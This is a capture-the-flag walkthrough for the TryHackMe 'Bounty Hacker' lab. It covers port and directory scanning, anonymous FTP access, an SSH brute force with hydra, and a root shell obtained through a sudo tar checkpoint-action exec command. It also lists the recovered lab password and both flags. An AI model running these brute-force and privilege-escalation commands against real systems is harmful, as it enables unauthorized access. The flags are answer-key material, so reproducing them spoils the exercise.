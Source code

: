 # Task 1 - Living up to the title

### Find open ports on the machine

For this section we can run an nmap scan

sudo nmap -sV -sC -T5 -p- 10.10.33.13 -oN \~/Github/BountyHackerCTF/nmapscan.md

I also ran a gobuster scan to find any additional directories on the webserver.

gobuster dir -u http://10.10.33.13 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

From our nmap scan we can see that 3 ports are open 21,22,80 for ftp,ssh, and http

### Who wrote the task list?

Since we have the ftp port open we can try to log in as the anonymous user and see if there is anything useful.

ftp anonymous@IP

we are able to connect and we find 2 files on the ftp server, locks.txt and task.txt

we can get these files on our local machine by using get locks.txt and get task.txt

usng cat task.txt we can see that *lin* wrote the list

### What service can you bruteforce with the text file found?

when using cat locks.txt we can see it is a list of passwords, we can use this to bruteforce ssh since that is one of the other ports that is open
Answer: SSH

### What is the users password?

we can try bruteforcing the ssh password for lin with the following command

hydra -t 16 -l lin -P /home/bryce/Github/BountyHackerCTF/locks.txt ssh://IP

then we get the password: RedDr4gonSynd1cat3

![Hydra Results](hydraresult.png)

### user.txt

After connecting to SSH with the credentials we had found

Username: lin
Password: RedDr4gonSynd1cat3

the user.txt file is present in the Desktop directory: THM{CR1M3_SyNd1C4T3}

### root.txt

Now that we are in the machine under the lin user we can run sudo -l to find what files we are able to run with sudo.

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

we get the above result, going to GTFObins we can see there is a command using tar as sudo to gain privlieged escalation

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

after running the above command we get the root shell

now we are able to navigate to the /root directory and there is a root.txt that has the following contents: THM{80UN7Y_h4cK3r}

We were able to log in to ftp using the anonymous user and use the information gained from that user to crack the password for user "lin". we then used the command sudo -l to see what files can be run as root for lin. We were able to run tar as root and used a command from GTFObins to gain a root shell.
